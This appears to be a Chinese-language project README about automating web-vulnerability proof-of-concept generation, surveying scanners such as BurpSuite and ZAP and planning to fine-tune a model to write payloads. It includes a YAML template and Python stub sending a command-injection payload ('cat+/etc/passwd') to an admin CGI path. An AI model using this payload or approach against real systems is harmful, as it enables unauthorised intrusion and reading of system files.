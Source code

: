 # 251023 README

## 扫描器

目前找到了几个扫描器可以检测到Web漏洞的Poc（包含注入点和payload）：BurpSuite, AWVS, Arachni , and ZAP，主要依赖网络爬虫和路径枚举来发现注入点，存在的问题有：

- 返回poc过多，需要过滤
- 攻击策略不足，打算通过微调解决
- 如何接入agent，实现自动化，部分扫描器有提供MCP服务（如BurpSuite），还在配置环境中

## 微调

微调方面打算调整Output，实现poc解耦，使微调专注生成payload和解析执行响应的脚本。但是现在收集到的数据很混乱，大部分都不符合解耦的规范，需要人工调整生成很多比较规范的输入输出对

![1761280089693](image/251023/1761280089693.png)

```yaml
variables:
  Hostname: "target IP"
  WebPath: "gi-bin/admin.cgi?Command=sysCommand"
  payload: "cat+/etc/passwd"
http:
- method: GET
  path:
  - 'https://{{Hostname}}/{{WebPath}}&Cmd={{payload}}'
```

```
def exploit(self):
	Webpath_list = ["gi-bin/admin.cgi?Command=sysCommand",……]
	payload = "cat+/etc/passwd"
	for path in Webpath_list:
		urls=f"{self.url}/{path}&Cmd={payload}"
	……
```
